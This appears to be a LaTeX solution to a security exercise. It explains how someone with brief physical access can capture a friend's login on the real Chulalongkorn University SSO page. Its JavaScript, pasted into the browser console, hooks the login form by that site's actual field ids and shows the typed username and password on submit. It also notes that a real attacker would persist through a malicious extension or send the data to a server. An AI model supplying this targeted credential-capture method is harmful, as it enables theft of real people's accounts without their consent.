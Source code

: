 \documentclass[a4paper, 10pt]{article}
\begin{document}
\begin{solution}
	\noindent \textbf{Idea.} With a few seconds of physical access, open the browser's developer
	console on the already-loaded ChulaSSO login page and paste a short script. The script hooks the
	login form so that, the moment your friend submits (clicks \emph{Login}), it reads the values
	still sitting in the username and password fields and pops them up. Nothing leaves the machine
	here --- a local \texttt{alert} is enough to prove the credentials were captured.

	\myspace

	\noindent \textbf{Step 1 --- open the console.} On the login page (\url{https://account.it.chula.ac.th/}),
	press \texttt{F12} (or \texttt{Ctrl+Shift+I} / \texttt{Cmd+Opt+I} on macOS) and select the
	\textbf{Console} tab.

	\myspace

	\noindent \textbf{Step 2 --- paste and run this script.} On the ChulaSSO page the fields carry
	the ids \texttt{login\_username} and \texttt{login\_password}, so the script targets those
	directly and falls back to a generic lookup only if they are ever renamed.

	\myspace

	\begin{codingbox*}[numbers=none, breaklines=true, basicstyle=\ttfamily\footnotesize\color{editortext}]
var user = document.getElementById('login_username')
        || document.querySelector('input[type="text"], input[type="email"]');
var pwd  = document.getElementById('login_password')
        || document.querySelector('input[type="password"]');
var form = pwd ? pwd.closest('form') : document.querySelector('form');

form.addEventListener('submit', function () {
    alert(
			'Captured credentials\n' +
      'Username: ' + (user ? user.value : '(not found)') + '\n' +
      'Password: ' + (pwd  ? pwd.value  : '(not found)')
		);
}, true);
\end{codingbox*}

	\myspace

	\noindent The \texttt{true} (capture-phase) argument matters: \texttt{alert()} is synchronous and
	blocks the thread, so the popup appears \emph{before} the browser leaves the page to process the
	login.

	\myspace

	\noindent \textbf{Step 3 --- wait.} Leave the page as-is. When your friend returns and logs in,
	the alert fires showing their ChulaId and password.

	\myspace

	\noindent \textbf{Important caveat.} A console-injected script lives only for the \emph{current page load}.
	It works precisely because the victim logs in on the same loaded page within the
	2--3 minute window; if the page is reloaded or navigated, the script is gone and must be
	re-injected. (In a real attack the adversary would instead persist via a malicious extension or
	exfiltrate silently to a server; here a local popup is deliberately used so no data leaves the
	machine.)

\end{solution}
\end{document}
